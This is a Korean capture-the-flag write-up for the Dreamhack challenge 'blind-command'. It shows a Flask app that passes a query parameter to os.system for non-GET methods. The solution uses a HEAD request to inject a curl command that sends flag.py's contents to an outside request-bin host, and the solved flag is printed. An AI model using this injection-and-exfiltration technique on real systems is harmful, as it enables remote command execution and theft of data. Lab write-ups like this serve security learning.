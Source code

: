 # Blind-command

# 문제 접근

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3afc399b-e22d-4f84-a3c3-739456b947df/Untitled.png)

blind-command 문제의 접속 정보와 문제 설명 및 문제파일을 다운로드 받을 수 있다. app.py 파일을 보면 아래 코드를 볼 수 있다.

```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```

코드는 복잡하지 않은데 GET 으로 요청을 받으면 매개변수 cmd에 담긴 값을 받는다. 메서드가 GET이 아니라면 이 cmd에 담긴값을 os.system으로 실행한다. 여기서 문제는 페이지가 GET만 허용해주고 있는데 GET으로 요청을 보내면 cmd를 실행시킬 수 없다는 점이다. 

# 문제 풀이

파이썬을 사용하여 보낼 것이므로 GET이 아닌 다른 요청들이 무엇이 있는지 찾아보았다

[https://me2nuk.com/Python-requests-module-example/](https://me2nuk.com/Python-requests-module-example/)

### **Request method**

requests 클래스에서 지원하는 요청 메서드는 `[PUT, GET, POST, HEAD, PATCH, DELETE, OPTIONS]` 메서드가 존재한다. 이 메서드를 하나씩 테스트해보았다.

 

```python
import requests
url=f"http://host3.dreamhack.games:12409"
#
data={
    "cmd":"ls"
    }
#options,get,head
response=requests.head(url)
print(url)
print(response.headers)
```

![not allowed.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f9f3499b-b3ad-48c6-a9cd-3698d9882fb4/not_allowed.png)

POST나 PUT으로 보내면 method가 허용되지 않았기 때문에 405가 오게된다. 하지만 HEAD 방식은 요청이 정상적으로 가는 것을 확인할 수 있었다.

보통 HEAD 방식은 GET 방식이 열려있는 경우 같이 열려있다고한다. HEAD방식은 GET 방식으로 보냈을 때 오는 응답에서 body만 빼고 응답이 온다. 즉 내가 원하는 명령을 실행시킬 수는 있게 되었는데 문제는 그 응답을 보기가 힘들다는 점이다. 그래서 응답 결과를 

서버를 직접 열기보다는 드림핵에서 제공하는 tools 서비스를 이용하여 이곳에서 생성되는 링크로 curl을 통해 연결한 후 get방식을 통해 flag 값을 전달하는 방식을 선택했다.

이 때 $(cat flag.py)를 하면 FLAG만 오게 된다. 그 이유는 계속 테스트해본 결과 get 방식으로 전달하게 되는 경우 공백 전까지만 전달이 되는 것으로 보인다. 

따라서 공백을 지워주는 명령어인 sed를 이용해서 flag.py의 공백을 지워준 후 grep ‘DH’를 사용해서 curl의 get방식으로 전달해 주었다.

```python
import requests
url=f"http://host3.dreamhack.games:12409?cmd=curl https://qjyfxze.request.dreamhack.games?flag=$(sed 's/ /:/g' flag.py | grep 'DH')"
#
data={
    "cmd":"ls"
    }
#options,get,head
response=requests.head(url)
print(url)
print(response.headers)
```

![캡처.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/31950aab-4684-41af-872c-2be42fb3b52a/%EC%BA%A1%EC%B2%98.png)

FLAG값인 DH{4c9905b5abb9c3eb10af4ab7e1645c23}이 정상적으로 오는 것을 확인할 수 있다.
